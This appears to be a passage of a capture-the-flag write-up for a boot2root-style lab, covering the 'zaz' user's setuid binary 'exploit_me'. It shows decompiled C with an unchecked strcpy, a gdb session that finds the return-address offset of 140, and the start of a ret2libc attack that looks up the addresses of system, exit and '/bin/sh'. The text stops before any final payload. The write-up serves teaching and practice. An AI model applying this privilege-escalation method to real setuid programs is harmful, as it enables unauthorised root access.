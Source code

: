 # zaz

```shell
peer-ThinkBook-14-G2-ITL# ls
ft_root  laurie  laurie@borntosec.net  lmezard	LOOKATME  thor	zaz
peer-ThinkBook-14-G2-ITL# cd zaz
peer-ThinkBook-14-G2-ITL# ls
exploit_me  mail
peer-ThinkBook-14-G2-ITL# file exploit_me 
exploit_me: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=f8e25724c3216a8d8cc43b894b58f2b87e9139cd, not stripped
```

We find an executable and get flashbacks to rainfall/override.

[HexRays](https://dogbolt.org/) decompiles it to the following:
```c
int main(int argc, const char **argv)
{
	char dest[128];

	if (argc <= 1)
		return (1);
	strcpy(dest, argv[1]);
	puts(dest);
	return (0);
}
```

Let's execute it using gdb with a [buffer overflow pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) of size 200 to determine the offset of the eip.
```shell
peer-ThinkBook-14-G2-ITL# gdb -q exploit_me 
Reading symbols from exploit_me...
(No debugging symbols found in exploit_me)
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
[...]

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()
```
Our trusted website tells us the offset is 140, which we would've already known if we'd looked at the ghidra instead of hexrays.

Ret2Libc:
```shell
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7cf6150 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7ce8440 <exit>
(gdb) info proc map
[...]
(gdb) find 0xf7cae000, 0xf7ed9000, "/bin/sh"
0xf7e6b0f5
1 pattern found.
```